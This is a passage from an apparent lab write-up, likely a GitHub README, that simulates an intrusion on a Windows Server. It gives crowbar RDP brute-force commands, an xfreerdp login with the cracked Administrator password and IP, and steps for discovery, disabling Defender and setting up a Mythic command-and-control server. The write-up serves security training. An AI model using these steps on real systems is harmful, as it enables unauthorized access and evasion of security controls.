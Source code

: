 3.1.6. Download the brute forcing tool, **crowbar**

```powershell
sudo apt-get update && sudo apt-get upgrade -y
sudo apt-get install -y crowbar
```

3.1.7. Create a target.txt file containing the IP of the target Windows Machine

```powershell
nano target.txt
```

3.1.8. Using crowbar try to brute force the Window Server. It can be seen that crowbar successfully traversed the wordlist created and successfully attained the password for Administrator 

```powershell
crowbar -b rdp -u Administrator -C dfir-wordlist -s 216.128.147.170/32
```

![Screenshot_(920)](https://github.com/user-attachments/assets/0a3fd904-a6ce-4911-b7e3-9d1793d9efbd)

3.1.9. RDP into the Windows Server using the credentials attained by brute forcing with crowbar. Access has successfully been attained to the Windows Server with Admin privileges

```powershell
xfreerdp /u:Administrator /p:Winter2024! /v:216.128.147.170:3389
```

![Screenshot_(921)](https://github.com/user-attachments/assets/368ad1ee-e310-4ecd-a1f9-bb0c578f011a)

### Phase 2

![Screenshot_(922)](https://github.com/user-attachments/assets/fb8e4bc3-6eb9-48b8-bf29-39dc13b9b120)

3.2.0. Now on to the Discovery Phase where we can run some basic commands to further the attack and better understand the network

![Screenshot_(923)](https://github.com/user-attachments/assets/bf570e41-0dd8-4a7a-98c1-a5a38311443d)

### Phase 3

![Screenshot_(924)](https://github.com/user-attachments/assets/e5963f79-a787-4292-9367-7574793e936a)

3.2.1. Following Discovery would be to disable Defender or any Security Controls within the victim machine to broaden the attack surface or further an attack

![Screenshot_(925)](https://github.com/user-attachments/assets/9a9f45af-2893-467a-81b2-18cc4311caf3)

### Phase 4

![Screenshot_(926)](https://github.com/user-attachments/assets/1aace4c5-c461-4cea-aeab-1bb0181e4f0c)

***Note -** Any configuration for Mythic should be done in the **mythic cli**

3.2.2. In the Mythic Server access the Mythic cli
